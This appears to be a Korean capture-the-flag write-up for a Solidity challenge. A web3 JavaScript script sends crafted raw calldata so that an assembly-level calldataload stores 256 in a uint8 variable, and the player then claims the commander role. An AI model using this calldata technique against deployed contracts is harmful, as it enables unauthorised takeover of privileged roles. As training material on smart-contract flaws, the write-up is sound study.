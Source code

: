 최종 calldata:

    0x211c85ab0000000000000000000000000000000000000000000000000000000000000100

------------------------------------------------------------------------

### 실행 과정

``` javascript
// 1단계: registerTreasury에 큰 값 전달
await web3.eth.sendTransaction({
    from: player,
    to: contract.address,
    data: "0x211c85ab0000000000000000000000000000000000000000000000000000000000000100",
    gas: 100000
});

// 2단계: treasury 값 확인
const treasury = await contract.treasury();
console.log(treasury.toString()); // "256"

// 3단계: commander 되기
await contract.claimLeadership();

// 4단계: 성공 확인
const commander = await contract.commander();
console.log(commander === player); // true
```

------------------------------------------------------------------------

## 공격 성공 원리

1.  Raw calldata 전송 → 함수 호출\
2.  어셈블리에서 `calldataload(4)` 실행\
3.  treasury 값이 256 저장됨\
4.  조건(`treasury > 255`) 만족\
5.  commander 권한 획득

------------------------------------------------------------------------

## 왜 이게 작동하는가?

``` solidity
// 이론상: uint8은 0-255만 가능
function registerTreasury(uint8 value) public {
    treasury = value;  // 256 불가능
}

// 실제: 어셈블리 직접 사용
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```
